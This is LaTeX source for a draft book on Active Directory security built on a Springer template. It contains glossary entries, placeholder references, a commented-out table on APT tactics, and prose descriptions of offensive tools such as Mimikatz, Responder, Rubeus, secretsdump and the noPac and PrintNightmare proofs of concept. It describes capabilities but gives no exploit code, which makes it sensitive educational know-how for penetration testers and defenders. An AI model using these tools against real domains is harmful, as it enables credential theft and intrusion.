\runinhead{Zero Trust Network Architecture (ZTNA)} Zero Trust Network Architecture (ZTNA) is a cybersecurity framework based on the principle of "never trust, always verify." Unlike traditional perimeter-based security models, ZTNA assumes that threats can originate both outside and inside the network. The thought process behind ZTNA is to require strict identity verification and continuous access validation for every user, device, and application, regardless of their location on or off the network. Access is granted based on the least privileges and contextual factors, such as user role, device posture, and location. ZTNA is increasingly adopted to reduce attack surfaces and improve resilience in hybrid and cloud environments.

\runinhead{Zerologon (CVE-2020-1472)} Zerologon is a critical vulnerability in the Microsoft Netlogon Remote Protocol that affects Active Directory domain controllers. The flaw stems from a weakness in the cryptographic implementation that allows an attacker to authenticate as any computer, including a domain controller, without valid credentials. The thought process behind exploiting Zerologon is to manipulate the Netlogon process to reset a domain controller’s machine account password to a blank value. This can result in full domain compromise or denial of service (DoS). Due to its severity, Zerologon highlights the importance of patching critical systems and securing authentication protocols.

\runinhead{Zone Transfers (DNS)} A zone transfer is a process in the Domain Name System (DNS) where a DNS server shares a copy of its zone data with another DNS server to maintain consistency and redundancy. In the context of Active Directory, zone transfers are a key part of replicating AD-integrated DNS zones across domain controllers. The thought process behind enabling zone transfers is to support fault tolerance and efficient DNS resolution; however, if not properly secured, zone transfers can unintentionally expose detailed information about internal network infrastructure to unauthorized parties. To mitigate this risk, zone transfers should be restricted to trusted servers only.

\ifdefined\chapter\else\errmessage{This file must be included from the main document, not compiled on its own}\fi
%%%%%%%%%%%%%%%%%%%%%%%% referenc.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% sample references
% %
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%
% BibTeX users please use
% \bibliographystyle{}
% \bibliography{}
%
\biblstarthook{In view of the parallel print and (chapter-wise) online publication of your book at \url{www.springerlink.com}, it has been decided that -- as a general rule -- references should be sorted chapter-wise and placed at the end of the individual chapters. However, upon agreement with your contact at Springer, you may list your references in a single separate chapter at the end of your book. Deactivate the class option \texttt{sectrefs} and the \texttt{thebibliography} environment will be put out as a chapter of its own.}
References may be \textit{cited} in the text either by number (preferred) or by author/year.\footnote{Make sure that all references from the list are cited in the text. Those not cited should be moved to a separate \textit{Further Reading} section or chapter.} If the citatiion in the text is numbered, the reference list should be arranged in ascending order. If the citation in the text is author/year, the reference list should be \textit{sorted} alphabetically and if there are several works by the same author, the following order should be used:\begin{enumerate}
\item all works by the author alone, ordered chronologically by year of publication
\item all works by the author with a coauthor, ordered alphabetically by coauthor
\item all works by the author with several coauthors, ordered chronologically by year of publication.
\end{enumerate}
The \textit{styling} of references\footnote{Always use the standard abbreviation of a journal's name according to the ISSN \textit{List of Title Word Abbreviations}, see \url{http://www.issn.org/en/node/344}} depends on the subject of your book:
\begin{thebibliography}{99}
%
%
% Use the following syntax and markup for your references if 
% the subject of your book is from the field 
% "Mathematics, Physics, Statistics, Computer Science"
%
% Contribution 
\bibitem{humlinphil-journal} Author, Title, Journal, Year (placeholder for humlinphil-journal)
\bibitem{science-contrib} Broy, M.: Software engineering --- from auxiliary to key technologies. In: Broy, M., Dener, E. (eds.) Software Pioneers, pp. 10-13. Springer, Heidelberg (2002)
%
% Online Document
\bibitem{science-online} Dod, J.: Effective substances. In: The Dictionary of Substances and Their Effects. Royal Society of Chemistry (1999) Available via DIALOG. \url{http://www.rsc.org/dose/title of subordinate document. Cited 15 Jan 1999}
\protect\url{http://www.rsc.org/dose/title of subordinate document. Cited 15 Jan 1999}
%
% Monograph
\bibitem{science-mono} Geddes, K.O., Czapor, S.R., Labahn, G.: Algorithms for Computer Algebra. Kluwer, Boston (1992) 
%
% Journal article
\bibitem{science-journal} Hamburger, C.: Quasimonotonicity, regularity and duality for nonlinear systems of partial differential equations. Ann. Mat. Pura. Appl. \textbf{169}, 321--354 (1995)
%
% Journal article by DOI
\bibitem{science-DOI} Slifka, M.K., Whitton, J.L.: Clinical implications of dysregulated cytokine production. J. Mol. Med. (2000) doi: 10.1007/s001090000086 
%
% Use the following (APS) syntax and markup for your references if 
% the subject of your book is from the field 
% "Mathematics, Physics, Statistics, Computer Science"
%
% Online Document
\bibitem{phys-online} J. Dod, in \textit{The Dictionary of Substances and Their Effects}, Royal Society of Chemistry. (Available via DIALOG, 1999), 
\url{http://www.rsc.org/dose/title of subordinate document. Cited 15 Jan 1999}
%
% Monograph
\bibitem{phys-mono} H. Ibach, H. L\"uth, \textit{Solid-State Physics}, 2nd edn. (Springer, New York, 1996), pp. 45-56 
%
% Journal article
\bibitem{phys-journal} S. Preuss, A. Demchuk Jr., M. Stuke, Appl. Phys. A \textbf{61}
%
% Journal article by DOI
\bibitem{phys-DOI2} M.K. Slifka, J.L. Whitton, J. Mol. Med., doi: 10.1007/s001090000086
%
% Contribution 
\bibitem{phys-contrib} S.E. Smith, in \textit{Neuromuscular Junction}, ed. by E. Zaimis. Handbook of Experimental Pharmacology, vol 42 (Springer, Heidelberg, 1976), p. 593
%

%
% Use the following syntax and markup for your references if 
% the subject of your book is from the field 
% "Psychology, Social Sciences"
%
%
% Monograph
\bibitem{psysoc-mono} Calfee, R.~C., \& Valencia, R.~R. (1991). \textit{APA guide to preparing manuscripts for journal publication.} Washington, DC: American Psychological Association.
%
% Online Document
\bibitem{psysoc-online} Dod, J. (1999). Effective substances. In: The dictionary of substances and their effects. Royal Society of Chemistry. Available via DIALOG.

% Journal article
\bibitem{psysoc-journal} Harris, M., Karper, E., Stacks, G., Hoffman, D., DeNiro, R., Cruz, P., et al. (2001). Writing labs and the Hollywood connection. \textit{J Film} Writing, 44(3), 213--245.

% Contribution 
\bibitem{psysoc-contrib} O'Neil, J.~M., \& Egan, J. (1992). Men's and women's gender role journeys: Metaphor for healing, transition, and transformation. In B.~R. Wainrig (Ed.), \textit{Gender issues across the life cycle} (pp. 107--123). New York: Springer.

% Journal article by DOI
\bibitem{psysoc-DOI}Kreger, M., Brindis, C.D., Manuel, D.M., Sassoubre, L. (2007). Lessons learned in systems change initiatives: benchmarks and indicators. \textit{American Journal of Community Psychology}, doi: 10.1007/s10464-007-9108-14.

% Use the following syntax and markup for your references if 
% the subject of your book is from the field 
% "Humanities, Linguistics, Philosophy"
%
%
% Journal article

%
% Contribution 
\bibitem{humlinphil-contrib} Cameron, Deborah. 1997. Theoretical debates in feminist linguistics: Questions of sex and gender. In \textit{Gender and discourse}, ed. Ruth Wodak, 99--119. London: Sage Publications.
%

\bibitem{humlinphil-mono} Cameron, Deborah. 1985. \textit{Feminism and linguistic theory.} New York: St. Martin's Press.
%

\bibitem{humlinphil-online} Dod, Jake. 1999. Effective substances. In: The dictionary of substances and their effects. Royal Society of Chemistry. Available via DIALOG.
http://www.rsc.org/dose/title of subordinate document. Cited 15 Jan 1999

% Journal article by DOI
\bibitem{humlinphil-DOI} Suleiman, Camelia, Daniel C. O'Connell, and Sabine Kowal. 2002. `If you and I, if we, in this later day, lose that sacred fire...': Perspective in political interviews. \textit{Journal of Psycholinguistic Research}. doi: 10.1023/A:1015592129296.
% Use the following syntax and markup for your references if 
% the subject of your book is from the field 
% "Computer Science, Economics, Engineering, Geosciences, Life Sciences"
%
%
% Contribution 
\bibitem{basic-contrib} Brown B, Aaron M (2001) The politics of nature. In: Smith J (ed) The rise of modern genomics, 3rd edn. Wiley, New York 
%
% Online Document
\bibitem{basic-online} Dod J (1999) Effective Substances. In: The dictionary of substances and their effects. Royal Society of Chemistry. Available via DIALOG. 
%
% Journal article by DOI
\bibitem{basic-DOI} Slifka MK, Whitton JL (2000) Clinical implications of dysregulated cytokine production. J Mol Med, doi: 10.1007/s001090000086

% Journal article
\bibitem{basic-journal} Smith J, Jones M Jr, Houghton L et al (1999) Future of health insurance. N Engl J Med 965:325--329
%
% Monograph
\bibitem{basic-mono} South J, Blass B (2001) The future of modern genomics. Blackwell, London 
%
\end{thebibliography}

\include{backmatter/appendixa}
\include{backmatter/solutions}
%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}
\chapter{Chapter Heading}
\label{intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

\abstract*{APT Table Summary}

\abstract{APT Table Summary.
\newline\indent
Please use the 'starred' version of the new \texttt{abstract} command for typesetting the text of the online abstracts (cf. source file of this chapter template \texttt{abstract}) and include them with the source files of your manuscript. Use the plain \texttt{abstract} command if the abstract is also to appear in the printed version of the book.}

\section{Introduction to Active Directory Backdoors: Myth or Reality?}

\section{Table 1: In-Depth Characteristics of Advanced Persistent Threats (APTs)}
% For tables use
%
\begin{table}[!t]
\caption{Please write your table caption here}
\label{tab:1}       % Give a unique label
%
% For LaTeX tables use
%
\begin{tabular}{p{2.4cm}p{2.4cm}p{4.9cm}}
\hline\noalign{\smallskip}
%Attribute & Main Features & Description & crap \\
\noalign{\smallskip}\svhline\noalign{\smallskip}
%Nomenclature Meaning & Advanced & \\
%Nomenclature Meaning & Persistent & These adversaries are focused on long-term access, often maintaining a toehold in target networks for months or even years to complete multi-staged attack objectives.\\
%Nomenclature Name & Threat &  APTs are often associated with nation-state actors or state-sponsored groups with substantial funding, strategic and tactical motivations, and coordinated operations.\\
%Signs & Players & APTs are typically conducted by well-known groups such as APT28, OilRig, and Deep Panda, who are linked to geopolitical or economic objectives supported by external entities.\\
%Signs & Goals & The attackers aim to collect intelligence, exfiltrate data, or undermine the operations of targeted organizations, often to benefit national or corporate interests.
%Signs & Timeliness  & Attacks are carefully timed and prolonged. Attackers often return periodically to reinforce control, update malware, or harvest additional data from compromised systems. & crap
%Signs & Resources & APT campaigns demand significant investments in infrastructure, tool development, and personnel. These attacks often involve custom malware and dedicated Command and Control (C2) infrastructure.
%Signs & Risk Tolerance & APT actors prefer stealthy, calculated strikes with minimal noise. They avoid detection like the plague by blending into legitimate network traffic and maintaining a low operational footprint.
%Signs & Methods  & Techniques include rootkits, zero days, DNS tunneling, rogue access points, and social engineering, often deployed in combinations tailored to the target environment.
%Signs & Attack Source  & Attackers usually begin with thorough active or passive reconnaissance. Entry points of interest may be selected after mapping vulnerabilities via passive or active footprinting of the organization's layout.
%Signs & Attack Value  & APTs typically focus their sights on high-value targets such as governments, educational facilities and institutions (academia), healthcare providing agencies, hospitals, financial organizations, multinational corporations, and critical infrastructure rather than opportunistic mass attacks.
%Signs & Go-Around Detection Tools & These actors deploy evasion tactics like fileless malware, Living-Off-The-Land Binaries (LOLBins), and encrypted and covert C2 communications channels to bypass signature-based and anomaly detection tools.
%Lifecycle Phases & Initial Reconnaissance & The attacker collects information about the target's network architecture, personnel, and external-facing systems to plan the intrusion.
%Lifecycle Phases & Initial Compromise & Gaining initial access via spearphishing campaigns, credential theft, or exploiting unpatched vulnerabilities in public-Internet-facing applications or endpoints.
%Lifecycle Phases & Initial Toehold / Foothold & The attacker implants or embeds malware or backdoors to retain access even if the initial vector is closed. Persistence mechanisms include scheduled tasks and service modifications.
%Lifecycle Phases & Escalate / Elevate Privileges & Adversaries use tools and techniques, such as Mimikatz, and token impersonation to gain administrative privileges and move toward domain control.
%Lifecycle Phases & Lateral Movement & Using stolen credentials, remote desktop access, or SMB shares, attackers spread through the network to reach their objective(s).
%Lifecycle Phases & Maintain Presence &Ensures long-term access by deploying stealthy tools, updating implants, and leveraging trusted services (e.g., WMI, PsExec).\\
%Lifecycle Phases & Complete Mission &Final stage involving data theft, system disruption, or surveillance. Data is often exfiltrated over encrypted or covert C2 communications channels back to the attacking rig for analysis.\\
%Techniques & Social Engineering & Psychological manipulation of users to bypass security-often through pretexting, baiting, or impersonation.\\
%Techniques & Spearphishing & Highly targeted phishing attacks specifically crafted to target a particular individual using insider knowledge in hopes to lure the specific individual into divulging credentials or downloading malware via a Trojan Horse, or other means.\\
%Techniques & Watering Hole & Compromise of websites frequently visited by the target group(s). Once accessed, this site delivers malware tailored to and for the unsuspecting visitors of the infected webpage.\\
%Techniques & Drive-By Download & Malicious content is installed automatically when a user visits a compromised website-often with zero user interaction.\\
%Target Types & Government and Public Sector & Targeted for espionage, policy manipulation, or strategic disruption. Breaches can lead to national security risks or political embarrassment.
%Target Types & Information Technology (IT) Sector & Attacks can disable AD and network-related critical infrastructure, leak proprietary tools, or corrupt operational technologies.
%Target Types & Financial and Banking Sector & Focused on accessing transactional data, customer records, and internal decision-making structures, often resulting in major financial losses.
%Target Types & Energy and Utilities Sector & Disrupting critical cybersecurity infrastructure such as power grids, gas pipelines, water treatment and waste processing facilities can have catastrophic implications for civilian life and national stability.
%Target Types & Medical and Healthcare Sector & Breaches can expose sensitive patient data or disable emergency and first responder systems, potentially risking lives and violating data privacy protection laws.
%Target Types & Traffic, Transportation, and Logistics Sector & Interruptions in supply chains, shipping, or transport coordination systems can cause widespread economic and operational disturbances.
%Target Types & Manufacturing Sector & Industrial espionage and sabotage of production processes, including theft of designs, theft of intellectual property, trade secrets, brand name, patents, and/or copyrights breaches.\\
%Malware Comparison & Definition & APTs are strategic and focused, unlike generic malware which is often automated and indiscriminate in its impact and reach.\\
%Malware Comparison & Attacker & APTs involve trained teams with organizational support; malware may be developed by hobbyists or profit-seeking individuals.\\
%Malware Comparison & Target & APT s aim at institutions of strategic value; malware typically affects users indiscriminately.\\
%Malware Comparison & Purpose & APTs seek long-term objectives like influence, espionage, or control; malware often serves short-term financial gain or notoriety.\\
%Malware Comparison & Attack Lifecycle & APTs evolve and adapt over time; malware generally ends when detected and removed.\\
%Detection and Protection & Email Screening & Filtering emails for malicious links and attachments is essential in countering phishing-the most common initial APT vector.
%Detection and Protection & Endpoint Security & EDR solutions monitor near-real-time behaviors on endpoints, flag anomalies, and prevent malware from gaining persistence or executing malicious payloads.
%Detection and Protection & Access Control & Least privilege principles, multi-factor authentication, and rigorous account auditing reduce attack surfaces lessening the opportunity conduct privilege escalation.
%Detection and Protection & Monitoring User and Entity Behavior & Analyzing logs for unusual access patterns, privilege abuse, or data transfers helps identity APT movement and exfiltration activities.
%\noalign{\smallskip}\hline\noalign{\smallskip}
\end{tabular}
*Table foot note (with superscript)
\end{table}

\renewcommand{\tipbox}[1]{\begin{quote}\textbf{#1}\end{quote}}
%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}
\chapter{Tools}
\label{intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

\abstract*{Each chapter should be preceded by an abstract (no more than 200 words) that summarizes the content. The abstract will appear \textit{online} at \url{www.SpringerLink.com} and be available with unrestricted access. This allows unregistered users to read the abstract as a teaser for the complete chapter.
Please use the 'starred' version of the new \texttt{abstract} command for typesetting the text of the online abstracts (cf. source file of this chapter template \texttt{abstract}) and include them with the source files of your manuscript. Use the plain \texttt{abstract} command if the abstract is also to appear in the printed version of the book.}
%\begin{tips}{W}
If you want to emphasize complete paragraphs of texts in an, we recommend to
use  \begin{verbatim}\begin{tips}{Tips}
...
\end{tips}\end{verbatim}
%\end{tips}
%
%
\tipbox {\textbf{PowerView} and its .NET counterpart, \textbf{SharpView}, are reconnaissance tools designed to provide situational awareness in Active Directory environments. Functionally, they act as powerful replacements for many traditional Windows \texttt{*net} commands, but with far greater flexibility and depth. Both tools allow you to enumerate users, groups, computers, shares, and access rights throughout the domain, and in many ways, the data you collect with either tool will overlap with what BloodHound provides you; however, unlike BloodHound-which automatically builds visual relationship graphs-you must manually interpret and correlate the results to uncover meaningful attack paths. These tools are especially useful when testing new credentials, since they allow you to quickly determine what additional access is unlocked by a new account. They also enable targeted queries against specific users or systems, helping you to identify "quick wins" such as accounts vulnerable to Kerberoasting or AS-REPRoasting attacks.}

\tipbox{BloodHound is a tool used to visually map Active Directory relationships and uncover potential attack pathways that might otherwise go unnoticed. It relies on the SharpHound ingestor, available in both PowerShell and C\# to collect data from the environment. This information is then imported into the BloodHound application-built with JavaScript (Electron) and backed by a Neo4j database-where it can be fully analyzed through a user-friendly and intuitive graphical interface, providing clear insights into privilege escalation opportunities and attack vectors within the AD environment.}

\tipbox{SharpHound is a C\# data collector is designed to gather comprehensive information from Active Directory, including details about users, groups, computers, Access Control Lists (ACLs), Group Policy Objects (GPOs), user and computer attributes, active sessions, and more. Once collected, the data is output in JSON format, which can then be ingested into the BloodHound graphical interface for analysis. This process allows security professionals and defenders to visualize complex AD relationships, identify privilege escalation opportunities, and map potential attack pathways across the domain.}

\tipbox{BloodHound.py is a Python-based BloodHound ingestor, built on the Impacket toolkit and provides a flexible alternative for collecting Active Directory data. It supports most of the standard BloodHound collection methods and has the added advantage of being able to run from a non-domain joined attack host. The data it gathers is exported in a format compatible with the BloodHound GUI, where it can be ingested and analyzed to reveal relationships, privilege escalation opportunities, and potential attack pathways within the targeted environment.}

\tipbox{Kerbrute is a Go-based tool that leverages Kerberos pre-authentication to interact with Active Directory. It can be used to enumerate valid domain accounts, conduct password spraying attacks, and perform brute-force attempts against user credentials. By exploiting the way Kerberos responds during authentication, Kerbrute allows attackers to efficiently identify valid usernames and weak passwords without needing prior domain access.}

\tipbox{The Impacket toolkit is a collection of Python-based tools designed for interacting with network protocols, offering a wide range of capabilities for penetration testers and red team operators. It includes numerous scripts that can be used to enumerate Active Directory environments, extract valuable information, and perform targeted attacks. With modules that support SMB, Kerberos, LDAP, and other key protocols, Impacket provides the building blocks for both reconnaissance and exploitation across Windows networks.}

\tipbox{Responder is a specialized tool designed to poison name resolution protocols such as LLMNR, NBT-NS, and mDNS, making it highly effective for capturing authentication requests on local networks. By responding to broadcast name resolution queries, it can trick systems into sending credentials or session information to the attacker's machine. Beyond poisoning, Responder includes several additional functions, such as setting up rogue SMB, HTTP, or LDAP servers to relay or capture authentication data across the wire, making it a versatile utility for both credential harvesting and network pivoting in Active Directory environments.}

\tipbox{Inveigh.ps1 is a PowerShell-based tool that functions in a manner similar to Responder, providing capabilities for conducting a variety of network spoofing and poisoning attacks within Windows environments. It can intercept and manipulate protocols such as LLMNR, NBT-NS, and mDNS to capture authentication hashes, relay credentials, and assist in credential harvesting operations. Since it runs natively in PowerShell, Inveigh.ps1 is particularly useful for red teamers or attackers operating without the ability to introduce external binaries, making it an effective alternative for network-based attacks in Active Directory environments.}

\tipbox{InveighZero is the C\# implementation of the Inveigh tool, designed to provide the same spoofing and credential capture capabilities as its PowerShell predecessor but with additional flexibility. It features a semi-interactive console that allows you to view and interact with captured data in near-real-time, such as usernames, password hashes, and challenge-response exchanges. By running as a standalone executable, InveighZero avoids some of the restrictions associated with PowerShell execution policies, making it a more versatile option for performing network spoofing and poisoning attacks within Active Directory environments.}

\tipbox{The \texttt{rpcinfo} utility is used to query the status of Remote Procedure Call (RPC) programs and enumerate the RPC services available on a remote host. By using the \texttt{-p} option, you can specify a target system and retrieve a list of all active RPC services, including their program numbers, version numbers, and supported protocols. For example, running \texttt{rpcinfo -p 10.0.0.1} will display detailed information about the RPC services running on the host at that IP address. Because this utility interacts directly with system-level services, it must be executed with elevated administrative privileges to return meaningful results.}

\tipbox{rpcclient is a command-line tool included with the Samba suite on Linux distributions that enables interaction with the Remote Procedure Call (RPC) service on Windows systems. It is frequently used for Active Directory enumeration, allowing you to query information such as domain users, groups, shares, policies, and other directory objects without needing a full Windows environment. By establishing a connection to a domain controller or other Windows host, \texttt{rpcclient} provides a flexible interface for performing reconnaissance and gathering intelligence in preparation for more targeted attacks.}

\tipbox{CrackMapExec (CME) is a versatile enumeration, attack, and post-exploitation framework designed to streamline operations in Active Directory environments. It is particularly effective for leveraging the data gathered during reconnaissance, allowing attackers to quickly validate credentials, enumerate users and shares, and execute commands across multiple systems. CME follows a “living off the land” approach by abusing built-in AD protocols and services such as SMB, WMI, WinRM, and MSSQL, making it both powerful and stealthy. Its ability to automate common tasks and chain attacks makes it a go-to tool for red teamers and penetration testers working against Windows domains.}

\tipbox{Rubeus is a powerful C\# tool specifically designed for abusing and manipulating Kerberos authentication within Active Directory environments. It supports a wide range of Kerberos-related attacks, including ticket extraction, pass-the-ticket, overpass-the-hash, Kerberoasting, AS-REP Roasting, and ticket renewal or manipulation. Because Kerberos is the backbone of authentication in AD, Rubeus provides red teamers and penetration testers with the ability to explore, exploit, and persist within domains by directly interacting with the ticketing system. Its versatility makes it one of the most widely used tools for both offensive operations and for defenders seeking to understand and detect Kerberos-based attack techniques.}

\tipbox{\texttt{getuserspn.py} is an Impacket module designed to identify Service Principal Names (SPNs) that are associated with regular user accounts in an Active Directory environment. Since SPNs linked to user accounts often indicate service accounts with elevated privileges, these findings are valuable for Kerberoasting attacks, where attackers request and extract Kerberos service tickets to attempt offline password cracking. By automating the discovery of these user-tied SPNs, \texttt{getuserspn.py} helps streamline reconnaissance and highlights potential targets that could lead to privilege escalation within the domain.}

\tipbox{Hashcat is a highly versatile and efficient tool for hash cracking and password recovery, widely used by penetration testers, red teamers, and security researchers. Supporting a vast range of hashing algorithms and password formats, it leverages CPU and GPU acceleration to perform fast and large-scale brute-force, dictionary, rule-based, and hybrid attacks. In Active Directory contexts, Hashcat is frequently used to crack password hashes obtained through attacks such as Kerberoasting, AS-REP Roasting, or NTLM hash extraction, helping to reveal weak or reused credentials. Its performance, flexibility, and extensive community support make it one of the most popular and effective tools for password auditing and recovery.}

\tipbox{Enum4linux is a Linux-based tool used to extract valuable information from Windows systems and Samba shares through SMB protocol interactions. It automates many common enumeration techniques, allowing you to gather details such as domain users, groups, shares, password policies, and operating system information. Because it does not require authentication for many queries, Enum4linux is particularly useful in the early stages of reconnaissance against Active Directory environments, helping attackers quickly build a profile of the domain and identify potential entry points. Its simplicity and effectiveness make it a staple utility for penetration testers working in mixed Windows and Linux environments.}

\tipbox{Enum4linux-ng is a modern rework of the original Enum4linux tool, designed to provide more reliable and flexible enumeration of Windows and Samba systems. While it serves the same core purpose—gathering information such as users, groups, password policies, and network shares—it introduces updated code, improved performance, and expanded functionality compared to its predecessor. Enum4linux-ng also handles SMB interactions differently, making it more compatible with current Windows environments and better suited for integration into automated workflows. This makes it a valuable utility for penetration testers conducting reconnaissance and information gathering in Active Directory networks.}

ldapsearch is a command-line utility commonly used to query and enumerate information from LDAP directories, including Microsoft Active Directory. It allows you to perform flexible searches against directory services, retrieving details such as users, groups, organizational units, policies, and other directory objects. By crafting specific queries, penetration testers can gather a wealth of information about the domain structure, trust relationships, and security configurations without requiring privileged access. Because it is lightweight, scriptable, and widely available on Linux systems, \verb|ldapsearch| is a go-to tool for both reconnaissance and targeted enumeration in AD environments.

\tipbox{Windapsearch is a Python-based script designed to enumerate Active Directory objects such as users, groups, and computers by leveraging LDAP queries. It simplifies the process of interacting with the directory service and is particularly useful for automating custom LDAP queries that might otherwise be repetitive or time-consuming to perform manually. By running Windapsearch, penetration testers can quickly extract key information about the domain structure, identify high-value accounts or groups, and map relationships that may be useful for privilege escalation or lateral movement within an AD environment.}

\tipbox{DomainPasswordSpray.ps1 is a PowerShell-based tool designed to execute password spraying attacks against Active Directory domain accounts. Instead of brute-forcing a single user with many passwords—which risks triggering account lockouts—this tool attempts one or a few commonly used passwords across a large set of domain users. This technique helps attackers identify weak or reused credentials while reducing the likelihood of detection through lockout policies. DomainPasswordSpray.ps1 streamlines the process by automating user enumeration, authentication attempts, and result tracking, making it an effective utility for both penetration testers and red teamers assessing password hygiene within enterprise environments.}

\tipbox{The LAPS Toolkit is a collection of PowerShell functions built on top of PowerView, designed to audit and exploit Active Directory environments that have implemented Microsoft’s Local Administrator Password Solution (LAPS). While LAPS is intended to improve security by randomizing and centrally managing local administrator passwords, the toolkit can be used to assess whether the deployment has been configured securely or if it introduces new attack opportunities. With its functions, penetration testers and red teamers can query LAPS-related attributes, identify accounts with access to stored passwords, and in some cases extract or misuse those credentials to escalate privileges within the domain.}

\tipbox{SMBMap is a penetration testing tool used to enumerate SMB shares across an Active Directory domain. It allows you to quickly identify accessible shares on remote systems, determine user permissions, and search for sensitive files such as configuration data, credentials, or scripts that may aid further compromise. By automating share enumeration, SMBMap helps attackers and red teamers uncover misconfigurations like overly permissive access rights or world-readable directories. Its ability to test authentication with provided credentials also makes it useful for validating account access and assessing the overall security posture of SMB resources within the domain.}

\tipbox{\texttt{psexec.py} is a module within the Impacket toolkit that replicates the functionality of Microsoft’s PsExec utility, providing attackers with the ability to execute commands on remote Windows systems. By leveraging SMB and Windows services, it creates a semi-interactive shell on the target host, allowing for remote code execution once valid credentials are supplied. This makes it a powerful tool for lateral movement, privilege escalation, and post-exploitation within Active Directory environments. Because it relies on standard Windows protocols and services, \texttt{psexec.py} is also an effective “living off the land” technique that can blend into normal administrative activity if not closely monitored.}

\tipbox{\texttt{wmiexec.py} is a tool that allows command execution over Windows Management Instrumentation (WMI). This provides a stealthy alternative to PsExec, often blending in with normal administrative activity and making it useful for remote code execution and post-exploitation.}

\tipbox{Snaffler is a reconnaissance utility designed to automatically search network file shares for sensitive information, such as credentials, configuration files, or scripts. It helps attackers and red teamers quickly identify files of interest across large Active Directory environments.}

\tipbox{smbscript.py is an Impacket script that sets up a simple SMB server on Linux to interact with Windows hosts. It is frequently used for transferring files within a network, staging payloads, or exfiltrating data using standard SMB communications.}

\tipbox{setspn.exe is a native Windows command-line tool that allows administrators (and attackers) to add, read, modify, or delete Service Principal Names (SPNs) associated with service accounts. It is commonly used during Kerberos-related attacks, such as Kerberoasting. }

\tipbox{Mimikatz— A well-known post-exploitation tool capable of extracting plaintext passwords, NTLM hashes, and Kerberos tickets directly from memory. It supports techniques such as Pass-the-Hash (PtH), Pass-the-Ticket (PtT), and Golden Ticket attacks, making it one of the most widely used offensive tools in Active Directory exploitation.}

\tipbox{secretsdump.py is part of the  Impacket toolkit, and this script remotely extracts sensitive information such as SAM and LSA secrets, cached credentials, and Kerberos keys from a Windows host. It is highly effective for credential dumping without requiring local code execution.}

\tipbox{evil-winrm — A tool that provides an interactive PowerShell-based shell on a remote host via the Windows Remote Management (WinRM) protocol. It is commonly used by red teamers for remote administration, file uploads, and command execution once valid credentials are available.}

\tipbox{mssqlclient.py is an Impacket script that enables interaction with Microsoft SQL Server (MSSQL) databases. It allows for authentication, query execution, and in some cases, abuse of SQL-linked privileges for lateral movement or privilege escalation.}

\tipbox{noPac.py is an exploit that chains vulnerabilities CVE-2021-42278 and CVE-2021-42287, enabling a standard domain user to impersonate a Domain Administrator. This proof-of-concept demonstrated one of the most critical AD privilege escalation flaws discovered in recent years.}

\tipbox{rpcdump.py is another Impacket tool that queries and enumerates RPC endpoints on a remote system. It is useful for identifying available RPC services, which can guide further enumeration and potential exploitation.}

\tipbox{CVE-2021-1675.py (PrintNightmare) is a Python proof-of-concept exploit for the PrintNightmare vulnerability, which abuses the Windows Print Spooler service to escalate privileges and execute code remotely.}

\tipbox{ntlmrelayx.py is part of the  Impacket toolkit, and this tool performs NTLM relay attacks by capturing NTLM authentication attempts and relaying them to other services to gain unauthorized access. It supports SMB, HTTP, LDAP, and other protocols, making it highly versatile.}

\tipbox{PetitPotam.py is also a proof-of-concept exploit for CVE-2021-36942 that coerces Windows hosts into authenticating to other machines via the MS-EFSRPC protocol. It is often used in relay attack chains against Active Directory Certificate Services.}
\begin{itemize}
    \item 2025 Global Threat Report | Latest Cybersecurity Trends \& Insights | CrowdStrike
    \item 2025 State of API Security Report - Traceable AI
    \item 6 Web Application Security Best Practices: A Developer's Guide - Jit.io
    \item A beginner's guide to SQL injection and how you should prevent it : r/java - Reddit
    \item AS\_REP Roasting vs Kerberoasting - LuemmelSec
    \item All of the Best Links and Resources on Cyber Security. | s0cm0nkey's Security Reference Guide
    \item An introduction to threat intelligence - National Cyber Security Centre
    \item Best WAF Solutions in 2024-2025: Real-World Comparison - open-appsec
    \item CRR Supplemental Resource Guide, Volume 4: Vulnerability Management-CISA
    \item Command \& Control Series Part 01 (Installing your own C2 Server on Kali Linux)
    \item Command and Control (C2) Attacks Explained-Splunk
    \item Create a Command and Control (C2) Server | Cybercademy
    \item Critical Windows Server 2025 dMSA Vulnerability Enables Active Directory Compromise
    \item Cybersecurity Best Practices | Cybersecurity and Infrastructure Security Agency CISA
    \item Cybersecurity Career Pathway-CyberSeek
    \item Defendable Architectures | Lockheed Martin
    \item Designing Blue Team Playbooks with Wazuh for Proactive Cyber Defense
    \item Detect and Stop C2 Attacks | Fidelis Security
    \item Detecting Active Directory Kerberos Attacks: Threat Research release, March 2022 | Splunk
    \item Exploits Explained: 5 Unusual Authentication By[ass Techniques | Blog-Synack
    \item Hacking Web Applications-EC-Council iLabs
    \item How to Prevent Kerberoasting Attacks | Lepide]
    \item Introduction to Web Application Penetration Testing-Rana Khalil
    \item Installation and Setup | Cloud C² - Hak5
    \item Kerberoasting Attack-Netwrix
    \item Kerberoasting Attacks: How They Work, Impact, and Prevention-Cymulate
    \item Making a C2 From Scratch and Customizing Existing Ones : r/redteamsec-Reddit
    \item NIST Special Publication 800-30 Revision 1, Guide for Conducting Risk Assessments
    \item Offensive vs. Defensive Security: What is The Difference?-Splunk
    \item Penetration Testing Guidance-PCI Security Standards Council
    \item PoshC2 Documentation
    \item Ransomware Attacks: Analysis, Prevention, and Effective Defense Mechanisms-Eventiotic
    \item Recent Botnet Takedowns Allow U.S. Government to Reach Into Private Devices | Lawfare
    \item Red Team vs. Blue Team: What's the Difference?-CrowdStrike
